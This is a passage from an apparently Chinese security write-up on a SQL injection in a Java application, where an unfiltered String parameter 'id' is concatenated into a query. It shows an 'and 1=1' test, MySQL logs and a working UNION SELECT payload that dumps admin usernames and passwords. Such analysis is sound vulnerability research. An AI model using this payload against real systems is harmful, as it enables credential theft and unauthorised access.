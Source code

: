 ```bash

            return userinfo;
        }
```

可以看到在 sql 语句中，存在着拼接的 String 类型变量`id`，且没有进行任何的过滤处理，直接带入执行。这也就导致了 SQL 注入，如下图，带入参数`and 1=1`：

[![](assets/1698897408-4716dfb778b3ef852127ffa36f03d837.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155859-1a033cd4-127e-1.png)

监视 MySQL 的执行记录，如下图所示：

[![](assets/1698897408-975d4e1b17016caca07d9bacfd384688.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155915-236cdca8-127e-1.png)

完整的把我们带入的参数给传了进去。

执行下述 payload 即可获取管理员的账号密码：

```bash
id=2 union select 1,2,3,group_concat(username),group_concat(password) from admin--
```

[![](assets/1698897408-adaf1c7ab1cdec3c701ffea339ddd1ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129155929-2bcb5c62-127e-1.png)

